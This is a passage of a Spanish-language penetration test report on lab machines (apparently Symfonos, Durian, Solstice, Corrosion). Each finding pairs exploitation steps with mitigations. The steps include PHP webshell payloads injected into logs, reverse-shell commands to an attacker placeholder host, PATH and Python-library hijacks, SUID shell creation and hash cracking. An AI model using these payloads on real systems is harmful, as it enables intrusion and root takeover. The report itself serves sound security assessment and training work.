    *   **Resultado:** Obtención de una sesión Meterpreter como `NT AUTHORITY\SYSTEM`.
    *   **Evidencia:**
      
        
        
        
        
*   **Mitigación:**
    *   Aplicar los parches de seguridad de Microsoft para CVE-2019-0708.
    *   Habilitar Network Level Authentication (NLA) en RDP.
    *   Restringir el acceso al puerto 3389 mediante firewall, permitiendo solo desde IPs de confianza.
    *   Deshabilitar RDP si no es estrictamente necesario.


### 7.2 Vulnerabilidades Identificadas en PC2 (Symfonos)

**Vulnerabilidad PC2-1: WordPress Plugin 'Mail Masta' 1.0 - LFI y RCE vía SMTP Log Poisoning**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 80/tcp (Apache/WordPress), 25/tcp (SMTP/Postfix)
    *   **Herramienta(s) de Detección:** `smbclient`, `WPScan`, `curl`, `telnet`, Exploit-DB (40290)
    *   **Descripción Breve:** LFI en plugin 'Mail Masta' permite incluir `/var/mail/helios`. Inyectando código PHP en este log vía SMTP y luego incluyendo el log vía LFI, se consigue RCE como usuario `helios`.
*   **Descripción Técnica:**
    *   **Tipo:** LFI (CWE-22), Log Poisoning, RCE (CWE-94, CWE-77)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Remoto
    *   **Requiere Autenticación:** No para LFI/RCE (Credenciales de `helios` de `attention.txt` usadas para confirmar buzón).
    *   **Impacto Potencial:** Compromiso inicial como usuario `helios`.
    *   **Componente(s):** Plugin `mail-masta` v1.0 (`count_of_send.php`), Servidor SMTP Postfix, Log `/var/mail/helios`.
    *   **Parámetro(s):** `pl` (LFI), `comando` (RCE vía log inyectado).
*   **Explotación:**
    *   **Pasos:**
        1.  Confirmar existencia de `helios` y obtener posibles passwords de `attention.txt` vía Samba.
        2.  Conectar a SMTP: `telnet 10.10.10.5 25`.
        3.  Enviar email a `helios` con payload `<?php system($_GET['comando']); ?>` en el cuerpo.
        4.  Acceder a URL LFI: `http://10.10.10.5/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&comando=id` para verificar ejecución.
        5.  Usar payload reverse shell: `&comando=nc+-e+/bin/bash+[IP_ATACANTE]+[PUERTO]`
        6.  Iniciar listener: `nc -nlvp [PUERTO]`.
    *   **Resultado:** Shell reversa como `helios`.
    *   **Evidencia:**
      
        

        
        ``
        
        ``
        
        ``
        
*   **Mitigación:**
    *   Actualizar o desinstalar el plugin 'Mail Masta'.
    *   Validar y sanear entradas de usuario (parámetro `pl`).
    *   Configurar servidor web para no ejecutar código desde directorios de logs.
    *   Aplicar principio de mínimo privilegio al usuario del servidor web.
    *   Restringir relay SMTP.

**Vulnerabilidad PC2-2: Escalada de Privilegios vía Binario SUID Inseguro y PATH Hijacking**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** N/A (Local)
    *   **Herramienta(s) de Detección:** `find / -perm -4000 -type f 2>/dev/null`, `ls -la`, `strings`, `echo`, `chmod`, `export PATH`
    *   **Descripción Breve:** Binario `/opt/statuscheck` (SUID root) llama a `curl` sin ruta absoluta. Creando un script `curl` malicioso en `/tmp` y modificando el `PATH`, se ejecuta `/tmp/curl` como `root`.
*   **Descripción Técnica:**
    *   **Tipo:** Escalada de Privilegios (CWE-269), Configuración Insegura SUID (CWE-276), PATH Hijacking (CWE-426).
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Local
    *   **Requiere Autenticación:** Sí (shell `helios`).
    *   **Impacto Potencial:** Acceso `root`.
    *   **Componente(s):** Binario `/opt/statuscheck`, Variable `PATH`.
*   **Explotación:**
    *   **Pasos:**
        1.  `cd /tmp`
        2.  `echo "/bin/bash" > curl`
        3.  `chmod +x curl`
        4.  `export PATH=/tmp:$PATH`
        5.  `/opt/statuscheck`
    *   **Resultado:** Shell como `root`.
    *   **Evidencia:**
      
        ``
        
        ``
        
        ``
*   **Mitigación:**
    *   Usar rutas absolutas en scripts/binarios privilegiados (ej: `/usr/bin/curl`).
    *   Eliminar el bit SUID de `/opt/statuscheck` si no es esencial.
    *   Utilizar `sudo` con configuraciones restrictivas en lugar de SUID.
    *   Aplicar principio de mínimo privilegio.

### 7.3 Vulnerabilidades Identificadas en PC3 (Durian)

**Vulnerabilidad PC3-1: LFI vía `/proc/self/fd` y RCE vía Header Injection en `getImage.php`**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 80/tcp (Apache)
    *   **Herramienta(s) de Detección:** `gobuster`, Navegador, Burp Suite (Intruder, Repeater)
    *   **Descripción Breve:** Script `/cgi-data/getImage.php` es vulnerable a LFI. Se identifica que `/proc/self/fd/8` es un descriptor de archivo válido. Inyectando código PHP en la cabecera `User-Agent` y accediendo al LFI con el descriptor, se logra RCE como `www-data`.
*   **Descripción Técnica:**
    *   **Tipo:** LFI (CWE-22), Header Injection, RCE (CWE-94)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Remoto (vía pivote)
    *   **Requiere Autenticación:** No
    *   **Impacto Potencial:** Compromiso inicial como `www-data`.
    *   **Componente(s):** Script `getImage.php`, Sistema de archivos `/proc`, Cabecera HTTP `User-Agent`.
    *   **Parámetro(s):** `file` (LFI), `cmd` (RCE vía header inyectado).
*   **Explotación:**
    *   **Pasos:**
        1.  Identificar LFI: `http://10.10.20.3/cgi-data/getImage.php?file=/etc/passwd`.
        2.  Usar Burp Intruder en `...getImage.php?file=/proc/self/fd/§0§` (payload numérico) para encontrar descriptor válido (ej: 8).
        3.  Usar Burp Repeater: GET `...getImage.php?file=/proc/self/fd/8&cmd=id`. Modificar `User-Agent` a `<?php system($_GET['cmd']); ?>`. Verificar ejecución de `id`.
        4.  Preparar listener: `nc -nlvp 443`.
        5.  Enviar petición Repeater con `cmd=bash+-c+'bash+-i+>%26+/dev/tcp/[IP_ATACANTE]/443+0>%261'`.
    *   **Resultado:** Shell reversa como `www-data`.
    *   **Evidencia:**
      
        
        
        
        
        
        
        
        
*   **Mitigación:**
    *   Sanitizar parámetro `file` en `getImage.php`.
    *   Evitar usar `include`/`require` con entradas de usuario.
    *   Limitar acceso del servidor web a rutas sensibles como `/proc`.
    *   Configurar PHP para no procesar cabeceras como código.
    *   Usar WAF para detectar patrones LFI y Header Injection.

**Vulnerabilidad PC3-2: Escalada de Privilegios vía Capacidades Linux en `gdb`**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** N/A (Local)
    *   **Herramienta(s) de Detección:** `getcap -r / 2>/dev/null`, `gdb`
    *   **Descripción Breve:** Binario `/usr/bin/gdb` tiene capacidad `cap_sys_ptrace+ep`, permitiendo ejecutar comandos como `root` desde una sesión `gdb`.
*   **Descripción Técnica:**
    *   **Tipo:** Escalada de Privilegios (CWE-269), Explotación de Capacidades Linux (CWE-272)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Local
    *   **Requiere Autenticación:** Sí (shell `www-data`).
    *   **Impacto Potencial:** Acceso `root`.
    *   **Componente(s):** Binario `/usr/bin/gdb`, Capacidades del Kernel Linux.
*   **Explotación:**
    *   **Pasos:**
        1.  Verificar capacidades: `getcap /usr/bin/gdb`.
        2.  Ejecutar: `gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit`
    *   **Resultado:** Shell como `root`.
    *   **Evidencia:**
      
        ``
        
        
        
*   **Mitigación:**
    *   Eliminar capacidades innecesarias de binarios: `sudo setcap -r /usr/bin/gdb`.
    *   Restringir acceso a `gdb` solo a usuarios que lo necesiten.
    *   Utilizar políticas de seguridad (AppArmor/SELinux) para confinar `gdb`.
    *   Auditar regularmente binarios con capacidades.

### 7.4 Vulnerabilidades Identificadas en PC4 (Solstice)

**Vulnerabilidad PC4-1: LFI y RCE vía Log Poisoning en Servicio HTTP (Puerto 8593)**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 8593/tcp (HTTP/PHP CLI Server)
    *   **Herramienta(s) de Detección:** Nmap, Navegador, `curl`, `nc`
    *   **Descripción Breve:** Aplicación en puerto 8593 (`index.php` o `view.php`) es vulnerable a LFI vía parámetro `book` (o `file`). Se inyecta payload PHP en `/var/log/apache2/access.log` (asumiendo que el PHP CLI server usa este log, o el log correspondiente) enviando una petición malformada con `curl` (User-Agent). Luego se incluye el log vía LFI para RCE como `www-data`.
*   **Descripción Técnica:**
    *   **Tipo:** LFI (CWE-22), Log Poisoning, RCE (CWE-94, CWE-77)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Remoto (vía pivote)
    *   **Requiere Autenticación:** No
    *   **Impacto Potencial:** Compromiso inicial como `www-data`.
    *   **Componente(s):** Script `index.php`/`view.php`, Log de acceso Apache, `curl`/`nc`.
    *   **Parámetro(s):** `book`/`file` (LFI), `cmd` (RCE vía log).
*   **Explotación:**
    *   **Pasos:**
        1.  Verificar LFI: `http://10.10.20.3:8593/index.php?book=../../../../../../etc/passwd`.
        2.  Inyectar payload en log: `curl -A "<?php system(\$_GET['cmd']); ?>" http://10.10.20.3:8593/`.
        3.  Verificar RCE: `http://10.10.20.3:8593/index.php?book=../../../../../../var/log/apache2/access.log&cmd=id`.
        4.  Preparar listener: `nc -nlvp [PUERTO]`.
        5.  Ejecutar LFI con payload reverse shell (URL encoded): `...access.log&cmd=bash+-c+'bash+-i...[IP_ATACANTE]/[PUERTO]...'` (Alternativa: usar `nc` para enviar GET con payload en URI para que quede en el log).
    *   **Resultado:** Shell reversa como `www-data`.
    *   **Evidencia:**
      
        ``
        
        ``
        
        ``
        
        
        
*   **Mitigación:**
    *   Sanitizar parámetro de entrada en el script PHP.
    *   Deshabilitar inclusión de archivos desde rutas no confiables/logs.
    *   Restringir permisos del usuario `www-data`.
    *   Configurar servidor web/PHP para no interpretar código en logs.
    *   Usar WAF.

**Vulnerabilidad PC4-2: Escalada de Privilegios vía Servicio Web Local y Archivo PHP Modificable**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** N/A (Local - Servicio en 127.0.0.1:57), `/var/tmp/sv/index.php`
    *   **Herramienta(s) de Detección:** `ps aux`, `ls -la`, `echo`, `curl`, `/tmp/dash -p`
    *   **Descripción Breve:** Servicio web en `localhost:57` corre como `root` y ejecuta `/var/tmp/sv/index.php`. Este archivo es modificable por `www-data`. Se modifica para crear una copia SUID de `/bin/dash` en `/tmp/dash`, se activa vía `curl`, y se ejecuta `/tmp/dash -p` para obtener shell `root`.
*   **Descripción Técnica:**
    *   **Tipo:** Escalada de Privilegios (CWE-269), Permisos Incorrectos (CWE-276)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Local
    *   **Requiere Autenticación:** Sí (shell `www-data`).
    *   **Impacto Potencial:** Acceso `root`.
    *   **Componente(s):** Servicio web local, script `/var/tmp/sv/index.php`, permisos de archivo.
*   **Explotación:**
    *   **Pasos:**
        1.  Identificar proceso `root` escuchando en `localhost:57` con `ps aux | grep LISTEN`.
        2.  Verificar permisos de escritura en `/var/tmp/sv/index.php` con `ls -la /var/tmp/sv/`.
        3.  Modificar script: `echo '<?php system("cp /bin/dash /tmp/dash; chown root:root /tmp/dash; chmod u+s /tmp/dash;"); ?>' > /var/tmp/sv/index.php`
        4.  Activar script: `curl http://127.0.0.1:57`
        5.  Ejecutar shell SUID: `/tmp/dash -p`
    *   **Resultado:** Shell como `root`.
    *   **Evidencia:**
      
        ``
        
        
        
        ``
        
        
        
*   **Mitigación:**
    *   No ejecutar servicios web como `root`.
    *   Asegurar que archivos procesados por servicios privilegiados no sean modificables por usuarios sin privilegios. Corregir permisos en `/var/tmp/sv/`.
    *   Auditar procesos `root` y archivos SUID/SGID.
    *   Eliminar funcionalidades/servicios innecesarios.

### 7.5 Vulnerabilidades Identificadas en PC5 (Corrosion)

**Vulnerabilidad PC5-1: Apache Tomcat - Backup Expuesto con Credenciales y Carga de Archivos (RCE)**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 8080/tcp (Apache Tomcat)
    *   **Herramienta(s) de Detección:** Nmap, `dirb`, `wget`, `unzip`, `fcrackzip`, Metasploit (`exploit/multi/http/tomcat_mgr_upload`)
    *   **Descripción Breve:** Archivo `backup.zip` expuesto públicamente. Contiene `tomcat-users.xml` con credenciales de manager (`admin:melehifokivai`) tras crackear contraseña del zip (`@administrator_hi5`). Permite subir WAR malicioso vía manager para RCE como `tomcat`.
*   **Descripción Técnica:**
    *   **Tipo:** Exposición de Info. Sensible (CWE-538), Autenticación Rota (CWE-522), Carga de Archivos sin Restricciones (CWE-434)
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Remoto (vía pivote)
    *   **Requiere Autenticación:** Sí (credenciales manager obtenidas del backup).
    *   **Impacto Potencial:** Compromiso inicial como usuario `tomcat`.
    *   **Componente(s):** Servidor Tomcat, archivo `backup.zip`, `tomcat-users.xml`, Tomcat Manager Application.
*   **Explotación:**
    *   **Pasos:**
        1.  Descubrir `backup.zip` con `dirb`.
        2.  Descargar: `wget http://10.10.30.5:8080/backup.zip`.
        3.  Crackear contraseña zip: `fcrackzip -D -p /path/to/rockyou.txt -u backup.zip`.
        4.  Descomprimir: `unzip backup.zip`.
        5.  Leer credenciales de `tomcat-users.xml`.
        6.  Usar Metasploit `tomcat_mgr_upload`, configurar `RHOSTS`, `RPORT`, `HttpUsername`, `HttpPassword`, payload (`java/meterpreter/reverse_tcp`), `LHOST`, `LPORT`.
        7.  Ejecutar `exploit`.
    *   **Resultado:** Sesión Meterpreter como `tomcat`.
    *   **Evidencia:**
      
        
        
        
        
        
        
        
        
*   **Mitigación:**
    *   No exponer archivos de backup sensibles.
    *   Restringir acceso al manager de Tomcat (IP, auth fuerte).
    *   Usar contraseñas fuertes y únicas. Cambiar credenciales por defecto.
    *   Aplicar mínimo privilegio al usuario `tomcat`.
    *   Realizar escaneos de vulnerabilidades regulares.

**Vulnerabilidad PC5-2: Exposición de Hashes de Contraseña vía Herramienta Insegura (`look`)**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** N/A (Local)
    *   **Herramienta(s) de Detección:** `su`, `ls`, `./look`
    *   **Descripción Breve:** Usuario `jaye` (accesible con contraseña reutilizada `meleh****`) tiene ejecutable local `look` que permite leer archivos arbitrarios, incluyendo `/etc/shadow`.
*   **Descripción Técnica:**
    *   **Tipo:** Exposición de Info. Sensible (CWE-200), Permiso Incorrecto Recurso Crítico (CWE-732)
    *   **Gravedad:** Media
    *   **Vector de Ataque:** Local
    *   **Requiere Autenticación:** Sí (shell `tomcat`, contraseña `jaye`).
    *   **Impacto Potencial:** Revelación de hashes de todos los usuarios, facilitando cracking offline.
    *   **Componente(s):** Usuario `jaye`, ejecutable `/home/jaye/look`.
*   **Explotación:**
    *   **Pasos:**
        1.  Desde shell `tomcat`, cambiar a `jaye`: `su jaye` (password `melehif***`).
        2.  `cd /home/jaye`
        3.  Ejecutar: `./look /etc/shadow`
    *   **Resultado:** Visualización del contenido de `/etc/shadow`.
    *   **Evidencia:**
      
        

        
*   **Mitigación:**
    *   Eliminar herramientas inseguras (`look`) de directorios de usuario.
    *   Aplicar principio de mínimo privilegio; usuarios no deberían poder leer `/etc/shadow`.
    *   Reforzar políticas contra reutilización de contraseñas.
    *   Auditar permisos de archivos y ejecutables.


**Vulnerabilidad PC5-3: Credenciales Débiles de Usuarios del Sistema (`randy`)**

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** 22/tcp (SSH - para autenticación) 
    *   **Herramienta(s) de Detección:** John the Ripper (`john`), `ssh`
    *   **Descripción Breve:** Hash del usuario `randy` (obtenido vía Vuln PC5-2) corresponde a contraseña débil (`0705198*****`), crackeable con diccionario. Permite acceso SSH como `randy`.
*   **Descripción Técnica:**
    *   **Tipo:** Configuración Insegura / Credenciales Débiles (CWE-521)
    *   **Gravedad:** Alta
    *   **Vector de Ataque:** Local (obtención hash) / Remoto (autenticación SSH vía pivote)
    *   **Requiere Autenticación:** Sí (hash de `randy`).
    *   **Impacto Potencial:** Acceso no autorizado como usuario `randy`.
    *   **Componente(s):** Hash `/etc/shadow`, John the Ripper, Servicio SSH.
*   **Explotación:**
    *   **Pasos:**
        1.  Guardar hash de `randy` en archivo `hash.txt`.
        2.  Crackear: `john --wordlist=/path/to/rockyou.txt hash.txt`.
        3.  Conectar vía SSH: `proxychains ssh randy@10.10.30.5` (password `0705198*****`).
    *   **Resultado:** Acceso SSH como `randy`.
    *   **Evidencia:**
      
        
        
        
        
*   **Mitigación:**
    *   Implementar políticas de contraseñas fuertes (longitud, complejidad).
    *   Auditar fortaleza de contraseñas.
    *   Utilizar autenticación por ssh con clave rsa


**Vulnerabilidad PC5-4: Escalada de Privilegios vía Secuestro de Librería Python (`sudo`)** 

*   **Identificación:**
    *   **Puerto(s) / Servicio(s):** N/A (Local)
    *   **Herramienta(s) de Detección:** `sudo -l`, `ls -la`, `nano`/editor, `sudo`
    *   **Descripción Breve:** Usuario `randy` puede ejecutar `/home/randy/randombase64.py` como `root` vía `sudo`. Script importa librería `base64`. Archivo de librería `/usr/lib/python3.8/base64.py` es modificable por `randy`. Se modifica para añadir código que ejecute `/bin/bash`, logrando shell `root` al ejecutar el comando `sudo`.
*   **Descripción Técnica:**
    *   **Tipo:** Escalada de Privilegios (CWE-269), Secuestro de Librería (Library Hijacking - CWE-427 menos probable, más bien CWE-732 Permiso Incorrecto), Configuración Insegura `sudo`.
    *   **Gravedad:** Crítica
    *   **Vector de Ataque:** Local
    *   **Requiere Autenticación:** Sí (shell `randy`).
    *   **Impacto Potencial:** Acceso `root`.
    *   **Componente(s):** Configuración `sudo`, script `randombase64.py`, librería `base64.py`, permisos de archivo.
*   **Explotación:**
    *   **Pasos:**
        1.  Verificar `sudo -l` para `randy`.
        2.  Verificar permisos de escritura en `/usr/lib/python3.8/base64.py` con `ls -la`.
        3.  Editar librería: `nano /usr/lib/python3.8/base64.py`, añadir `import os; os.system("/bin/bash")`.
        4.  Ejecutar comando sudo: `sudo /usr/bin/python3.8 /home/randy/randombase64.py`.
    *   **Resultado:** Shell como `root`.
    *   **Evidencia:**
      
        
        
        
        
        
        
        
        
*   **Mitigación:**
    *   Revisar y restringir configuraciones de `sudo` (principio mínimo privilegio).
    *   Asegurar que librerías del sistema no sean modificables por usuarios sin privilegios (permisos correctos).
    *   Considerar `secure_path` en `sudoers`.
    *   Auditar permisos de archivos en directorios de librerías.
    *   Evitar permitir ejecución de scripts arbitrarios vía `sudo` si estos pueden ser influenciados por el usuario.

---

## 8. Resumen de Vulnerabilidades

| ID      | Sistema Afectado | Vulnerabilidad Breve                                     | Tipo        | Gravedad | Explotada | CVE            |
| :------ | :--------------- | :------------------------------------------------------- | :---------- | :------- | :-------- | :------------- |
| PC1-1   | PC1              | RDP RCE BlueKeep                                         | RCE         | Crítica  | Sí        | CVE-2019-0708  |
| PC2-1   | PC2 (Symfonos)   | WordPress MailMasta LFI + SMTP Log Poison RCE            | LFI/RCE     | Crítica  | Sí        | ExploitDB 40290|
| PC2-2   | PC2 (Symfonos)   | Escalada Privilegios SUID PATH Hijack (`/opt/statuscheck`) | PrivEsc     | Crítica  | Sí        | N/A            |
| PC3-1   | PC3 (Durian)     | LFI `/proc/self/fd` + Header Injection RCE (`getImage.php`) | LFI/RCE     | Crítica  | Sí        | N/A            |
| PC3-2   | PC3 (Durian)     | Escalada Privilegios Capacidades Linux (`gdb`)             | PrivEsc     | Crítica  | Sí        | N/A            |
| PC4-1   | PC4 (Solstice)   | LFI + Log Poison RCE (HTTP 8593)                         | LFI/RCE     | Crítica  | Sí        | N/A            |
| PC4-2   | PC4 (Solstice)   | Escalada Privilegios Servicio Local + PHP Modificable    | PrivEsc     | Crítica  | Sí        | N/A            |
